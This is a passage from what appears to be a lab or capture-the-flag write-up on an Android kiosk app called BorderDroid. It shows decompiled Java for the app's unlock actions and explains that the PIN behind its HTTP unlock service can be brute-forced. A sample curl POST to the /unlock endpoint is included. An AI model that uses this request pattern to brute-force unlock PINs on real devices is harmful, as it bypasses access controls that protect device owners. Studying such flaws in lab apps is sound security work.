 ```java
        }
    });
}

static /* synthetic */ void lambda$performUnlockActions$0(Context context) {
    Toast.makeText(context, "Remote Action Triggered (PIN OK)", Toast.LENGTH_SHORT).show();
    context.getSharedPreferences("kiosk_state", 0).edit().putBoolean("is_kiosk_active", false).apply();
    LocalBroadcastManager.getInstance(context).sendBroadcast(new Intent(HttpUnlockService.ACTION_STOP_KIOSK));
    Log.d(TAG, "Sent local broadcast to stop kiosk enforcement: com.eightksec.borderdroid.ACTION_STOP_KIOSK_ENFORCEMENT");
    Log.i(TAG, "Requesting stop of HttpUnlockService from RemoteTriggerReceiver.");
    context.stopService(new Intent(context, (Class<?>) HttpUnlockService.class));
    Intent intent = new Intent(context, (Class<?>) DashboardActivity.class);
    intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent);
    Log.i(TAG, "Finished executing unlock actions within Handler.");
}
```

How we can abuse of this vulnerability?
Simple, just **brute forcing** the PIN **via Request**.
But just for be a little concise, Ill show you the *curl* command.
```bash
curl -i -X POST http://192.168.0.6:8080/unlock \
  -H 'Content-Type: application/json' \
  -d '{"pin":"111111"}'
```
Remember change the *pin* value with the initial that you set when the app was installed.

I hope you found it useful (:
